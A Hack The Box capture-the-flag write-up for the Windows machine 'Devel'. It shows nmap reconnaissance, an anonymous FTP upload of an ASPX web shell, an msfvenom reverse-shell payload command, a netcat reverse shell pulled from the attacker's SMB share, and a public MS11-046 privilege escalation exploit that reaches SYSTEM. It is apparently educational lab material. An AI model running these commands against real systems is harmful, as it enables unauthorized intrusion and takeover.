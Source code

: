 ```yaml
---
title: Devel HTB (English)
image: /assets/img/Anexos/Pasted%20image%2020250410152509-1.png
description: Devel HTB Machine [Difuculty easy]
categories: [CTF,HackTheBox]
tags: [hacking,easy]
---
```




## Introduction

Devel, while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits. 

### Machine Description

![](/assets/img/Anexos/Pasted%20image%2020250410191300-1.png)

- Name: Devel
- Goal: Get two flags
- Difficulty: easy
- Operating System: Windows
- link: [Devel](https://app.hackthebox.com/machines/3)


### PDF Link
- PDF: [PDF Link](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/HTB/M%C3%A1quina%20Devel.pdf)






## Reconnaissance

We start executing `nmap` in order to know the ports and services running in the machine.

```shell
nmap -sSCV --min-rate=5000 -p- --open -n -Pn 10.10.10.5 -oN nmap.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-10 15:24 CEST
Nmap scan report for 10.10.10.5
Host is up (0.043s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Nmap report us the ports _21_(ftp) and _80_(http). In this scenario ftp allows anonymouys login so let's connect. 


```shell
ls
200 PORT command successful.
150 Opening ASCII mode data connection.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete
```

Once within ftp, we can see this files. This files seem to be from a web server. We confirm this watching this in the web:




![](/assets/img/Anexos/Pasted%20image%2020250410153112-1.png)

Curiously the main image has the same name as the ftp image so wen can start thinking that ftp is using the web directory.

As it's using IIS we must use a _.aspx_ in order to gain a reverse shell.
![](/assets/img/Anexos/Pasted%20image%2020250410154506-1.png)


## Explotation
I made the next payload using `msfvenom`

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.4  LPORT=4444 -f aspx >reverse.aspx
```


Then I upload it using ftp



![](/assets/img/Anexos/Pasted%20image%2020250410154021-1.png)

> This didn't work, when I finished the machine I realized it was because I should have used meterpreter xd, so I did it with:


I copy this _cmd.aspx_

```shell
cp /usr/share/wordlists/seclists/Web-Shells/FuzzDB/cmd.aspx .
```

Then I upload it 
```shell
ftp> put cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.000594 seconds (2.32 Mbytes/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
04-10-25  05:51PM                 1442 cmd.aspx
```

Now we have RCE. The next step is gaining a reverse shell.
![](/assets/img/Anexos/Pasted%20image%2020250410165207-1.png)


`nc` is not installed in Windows by default, so I just copy it from **seclist** and while I'm sharing the file using `impacket`, I execute it remotely using the `cmd.aspx` in order to get a reverse shell.
```shell
cp /usr/share/wordlists/seclists/Web-Shells/FuzzDB/nc.exe .
```

```shell
\\10.10.16.4\smbFolder\nc.exe -e cmd 10.10.16.4 4444 
```


![](/assets/img/Anexos/Pasted%20image%2020250410165637-1.png)

## Privilage Escalation
Now I'm in, I run `systeminfo` to know if it can be vulnerable. 
```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          10/4/2025, 2:09:42 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.292 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.373 MB
Virtual Memory: In Use:    768 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::4d6a:f8a6:c841:598a
                                 [03]: dead:beef::9556:9677:a8ff:c58e
                                 [04]: dead:beef::4d6a:f8a6:c841:598a

c:\windows\system32\inetsrv>wget
wget
'wget' is not recognized as an internal or external command,
operable program or batch file.
```

Searching in google I figure out this version is vulnerable. I use the next POC to exploit:

> https://github.com/n3rdh4x0r/CVE-2011-1249?tab=readme-ov-file

```shell
 wget https://raw.githubusercontent.com/n3rdh4x0r/CVE-2011-1249/refs/heads/main/40564.c
```

```shell
i686-w64-mingw32-gcc 40564.c -o newshell.exe -lws2_32
```

Now I use `impacket` again to share it using smb.

![](/assets/img/Anexos/Pasted%20image%2020250410173202-1.png)

But didn't work lmao, so I changed to this one:

- https://github.com/am0nsec/exploit/blob/master/windows/privs/MS11-046/ms11-046.exe


```powershell
C:\Users\Public>copy \\10.10.16.4\smbFolder\ms11-046.exe virus.exe
copy \\10.10.16.4\smbFolder\ms11-046.exe virus.exe
        1 file(s) copied.
```

```powershell
C:\Users\Public>.\virus.exe
.\virus.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```



